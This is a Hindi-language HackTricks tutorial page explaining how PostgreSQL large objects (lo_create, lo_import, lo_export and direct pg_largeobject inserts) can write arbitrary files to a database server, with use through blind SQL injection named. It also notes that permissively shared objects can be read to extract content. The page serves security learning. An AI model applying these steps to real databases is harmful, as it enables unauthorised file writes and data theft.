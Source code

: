 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL बड़े ऑब्जेक्ट

PostgreSQL एक संरचना प्रदान करता है जिसे **बड़े ऑब्जेक्ट** कहा जाता है, जो `pg_largeobject` तालिका के माध्यम से सुलभ है, जिसे बड़े डेटा प्रकारों, जैसे कि छवियों या PDF दस्तावेजों को संग्रहीत करने के लिए डिज़ाइन किया गया है। यह दृष्टिकोण `COPY TO` फ़ंक्शन की तुलना में फायदेमंद है क्योंकि यह **डेटा को फ़ाइल सिस्टम में वापस निर्यात करने** की अनुमति देता है, यह सुनिश्चित करते हुए कि मूल फ़ाइल की एक सटीक प्रति बनाए रखी जाती है।

इस तालिका में **एक पूर्ण फ़ाइल** संग्रहीत करने के लिए, `pg_largeobject` तालिका में एक ऑब्जेक्ट बनाया जाना चाहिए (जिसे LOID द्वारा पहचाना जाता है), इसके बाद इस ऑब्जेक्ट में 2KB आकार के डेटा टुकड़ों को डाला जाना चाहिए। यह महत्वपूर्ण है कि ये टुकड़े ठीक 2KB आकार के हों (अंतिम टुकड़े के संभावित अपवाद के साथ) ताकि निर्यात फ़ंक्शन सही ढंग से काम करे।

अपने बाइनरी डेटा को 2KB टुकड़ों में **विभाजित करने** के लिए, निम्नलिखित कमांड निष्पादित किए जा सकते हैं:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
फाइल को Base64 या Hex में एन्कोड करने के लिए, नीचे दिए गए कमांड का उपयोग किया जा सकता है:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**महत्वपूर्ण**: इस प्रक्रिया को स्वचालित करते समय, सुनिश्चित करें कि 2KB के स्पष्ट-टेक्स्ट बाइट्स के टुकड़े भेजें। हेक्स एन्कोडेड फ़ाइलों के लिए आकार में दोगुना होने के कारण प्रति टुकड़ा 4KB डेटा की आवश्यकता होगी, जबकि बेस64 एन्कोडेड फ़ाइलें सूत्र `ceil(n / 3) * 4` का पालन करती हैं।

बड़े ऑब्जेक्ट्स की सामग्री को डिबगिंग उद्देश्यों के लिए देखा जा सकता है:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Using `lo_creat` & Base64

बाइनरी डेटा को स्टोर करने के लिए, सबसे पहले एक LOID बनाया जाता है:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
सटीक नियंत्रण की आवश्यकता वाले स्थितियों में, जैसे कि एक ब्लाइंड SQL इंजेक्शन का लाभ उठाने के लिए, `lo_create` एक निश्चित LOID निर्दिष्ट करने के लिए पसंद किया जाता है।

डेटा के टुकड़े फिर इस प्रकार डाले जा सकते हैं:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
बड़े ऑब्जेक्ट को उपयोग के बाद निर्यात करने और संभावित रूप से हटाने के लिए:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Using `lo_import` & Hex

`lo_import` फ़ंक्शन का उपयोग एक बड़े ऑब्जेक्ट के लिए LOID बनाने और निर्दिष्ट करने के लिए किया जा सकता है:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
ऑब्जेक्ट निर्माण के बाद, प्रति पृष्ठ डेटा डाला जाता है, यह सुनिश्चित करते हुए कि प्रत्येक भाग 2KB से अधिक न हो:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
डेटा को निर्यात किया जाता है और बड़े ऑब्जेक्ट को हटा दिया जाता है:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Limitations

यह नोट किया गया है कि **बड़े ऑब्जेक्ट्स में ACLs** (एक्सेस कंट्रोल लिस्ट) हो सकते हैं, जो आपके उपयोगकर्ता द्वारा बनाए गए ऑब्जेक्ट्स तक पहुंच को प्रतिबंधित कर सकते हैं। हालाँकि, पुराने ऑब्जेक्ट्स जिनमें उदार ACLs हैं, अभी भी सामग्री निकासी के लिए सुलभ हो सकते हैं।

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
